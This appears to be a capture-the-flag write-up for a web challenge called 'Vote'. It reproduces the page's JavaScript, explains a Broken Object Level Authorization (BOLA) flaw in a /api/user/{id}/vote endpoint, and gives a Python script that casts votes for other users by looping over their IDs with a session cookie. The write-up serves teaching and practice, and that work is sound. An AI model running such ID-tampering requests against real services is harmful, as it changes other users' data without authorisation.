





# Vote

## Challenge

* Upon opening the challenge link, you are given a siup/signin portal.
  []()
* After successfully signing in, you will be shown the following Vote Page:
  []()
* You are allowed to cast only one vote. You can't change the vote after been casted.

Find the flag.

## Solution

**Observation**

* Upon successful authentication of a new participant, the vote status will always be the same. (`Abdullah: 9` and `Mahdmud: 1`)
* We got the last vote to cast. "Abdullah" wins the election irrespective of which person we vote.
* There's a hint: `Do the Impossible`

So, we need to somehow make "Mahmud" win the election.

The website doesn't have any other functionalities. Thus, our primary focus would be to inspect the frontend code. From the script portion of the `vote.html` we get the following:

```javascript
<script>
    const abdullahRow = document.getElementById('abdullah-row');
    const mahmudRow = document.getElementById('mahmud-row');
    const abdullahVotesSpan = document.getElementById('abdullah-votes');
    const mahmudVotesSpan = document.getElementById('mahmud-votes');

  // Function to handle signout
  async function signout() {
    try {
      const response = await fetch('/api/signout', {
        method: 'GET',
        headers: {
          'Content-Type': 'application/json',
          credentials: 'include', // Include session credentials for authenticated requests
        },
      });

      const data = await response.json();

      if (response.ok) {
        alert(data.message);
        window.location.href = '/signin.html'; // Redirect to the signin page after signout
      } else {
        alert(data.error || 'Error during signout');
      }
    } catch (error) {
      console.error('Error during signout:', error);
      alert('An unexpected error occurred during signout');
    }
  }

    // Function to make API requests
    async function makeRequest(url, method, data) {
      try {
        const response = await fetch(url, {
          method,
          headers: {
            'Content-Type': 'application/json',
            // Include session credentials for authenticated requests
            credentials: 'include',
          },
          body: JSON.stringify(data),
        });
        return response.json();
      } catch (error) {
        console.error('Error:', error);
      }
    }

    function displayResults(abdullahVotes, mahmudVotes, flag) {
    const resultMessage = document.getElementById('result-message');

    if (abdullahVotes > mahmudVotes) {
      resultMessage.textContent = "Abdullah Won! No Flag For You!";
    } else if (mahmudVotes > abdullahVotes) {
        resultMessage.textContent = "Mahmud Won!\nCongratulations!\n" + flag;
    } else {
      resultMessage.textContent = "It's a tie!";
    }
  }
    // Function to update vote counts and show/hide vote buttons
    async function getVoteCounts() {
      const response = await makeRequest('/api/votes', 'GET');
      if (response.ok) {
        const abdullahVotes = response.vote_status.filter(vote => vote === 'Abdullah').length;
        const mahmudVotes = response.vote_status.filter(vote => vote === 'Mahmud').length;

        abdullahVotesSpan.textContent = abdullahVotes;
        mahmudVotesSpan.textContent = mahmudVotes;

        if(response.vote_status[0] !== null) {
          document.getElementById('abdullah-btn').disabled = true;
          document.getElementById('mahmud-btn').disabled = true;
          displayResults(abdullahVotes, mahmudVotes, response.flag);
        }
        else {
            document.getElementById('result-message').textContent = "";
        }
      }
    }

    getVoteCounts();

    // Vote button click event for Abdullah
    document.getElementById('abdullah-btn').addEventListener('click', async () => {
      const response = await makeRequest('/api/user/1/vote', 'POST', { value: 'Abdullah' });
      if (response.ok) {
        alert(response.message);
        getVoteCounts();
      } else {
        alert(response.error);
      }
    });

    // Vote button click event for Mahmud
    document.getElementById('mahmud-btn').addEventListener('click', async () => {
      const response = await makeRequest('/api/user/1/vote', 'POST', { value: 'Mahmud' });
      if (response.ok) {
        alert(response.message);
        getVoteCounts();
      } else {
        alert(response.error);
      }
    });
</script>
```

After analyzing the code, the highlights are the 3 API calls that are being made:

* `/api/signout` - Sign Out
* `/api/votes` - Gets Vote Status (who got how many votes)
* `/api/user/1/vote` - Casts a vote

It's apparent that we will have to do something with the 3rd one (`/api/user/1/vote`) to make "Mahmud" win the election. Somehow use the API to make multiple votes for "Mahmud" so that his vote counts get greater than the vote count of "Abdullah".

Now, let's analyze this API (`/api/user/1/vote`) even more.

```javascript
    // Function to make API requests
    async function makeRequest(url, method, data) {
      try {
        const response = await fetch(url, {
          method,
          headers: {
            'Content-Type': 'application/json',
            // Include session credentials for authenticated requests
            credentials: 'include',
          },
          body: JSON.stringify(data),
        });
        return response.json();
      } catch (error) {
        console.error('Error:', error);
      }
    }

    // Vote button click event for Abdullah
    document.getElementById('abdullah-btn').addEventListener('click', async () => {
      const response = await makeRequest('/api/user/1/vote', 'POST', { value: 'Abdullah' });
      if (response.ok) {
        alert(response.message);
        getVoteCounts();
      } else {
        alert(response.error);
      }
    });

    // Vote button click event for Mahmud
    document.getElementById('mahmud-btn').addEventListener('click', async () => {
      const response = await makeRequest('/api/user/1/vote', 'POST', { value: 'Mahmud' });
      if (response.ok) {
        alert(response.message);
        getVoteCounts();
      } else {
        alert(response.error);
      }
    });
```

We understand the following:

* `/api/user/1/vote` the API path indicates that, this endpoint might be susceptible to a very famous API vulnerability called [BOLA](https://owasp.org/API-Security/editions/2023/en/0xa1-broken-object-level-authorization/) (Broken Object Level Authorization). We can just change the user id from `1` to any other numbers and try to cast a vote on behalf of that user.
* `value: 'Mahmud'` or `value: 'Abdullah'` is sent in the request body to indicate who we are casting our vote to.

So, we need to do the following:

* Send request to: `/api/user/{id}/vote` (id from 1 to 10)
* Request Body: `{value: 'Mahmud'}`

That way we will be able to alter the already casted votes. And make the vote count of "Mahmud" greater than the vote count of "Abdullah". Basically, if the vote count of "Mahmud" reaches `6`, he should win the election as there are total `10` votes.

We can send those requests using various tools.

* [Postman](https://www.postman.com/)

  []()
  []()
* [Burp Suite](https://portswigger.net/burp)

Or, we can just write a `python` script like **Azwad (winner of ductf-2023)**.

```python
import requests
import json

body = { 'value': 'Mahmud'}
headers = {
    'Cookie': 'connect.sid=s%3A3Sa0wLY2NbEABgajsS2sAoDDm3CmUiql.uPZenyg%2FD%2BOmZSY7JCfpA%2FrHpnogNPvAjw1Pc9KwbDw',
    'Content-Type': 'application/json'
}

for i in range(1, 8):
    url = 'https://vote.ductf.com/api/user/'+ str(i) + '/vote'
    response = requests.post(url, data=json.dumps(body), headers=headers)
    if response.status_code == 200:
        print('Request was successful.')
    else:
        print(f'Request failed with status code {response.status_code}.')

```

After that, reloading the Vote page will give us the flag as we've successfully did the impossible (making Mahmud won the election).

Our apporach was successful. The website was indeed vulnerable to [Broken Object Level Authorization](https://owasp.org/API-Security/editions/2023/en/0xa1-broken-object-level-authorization/).

[]()
Finally, we get the flag: `duCTF{80LA_1$_A$_DANG3R0U$_A$_380LA}`
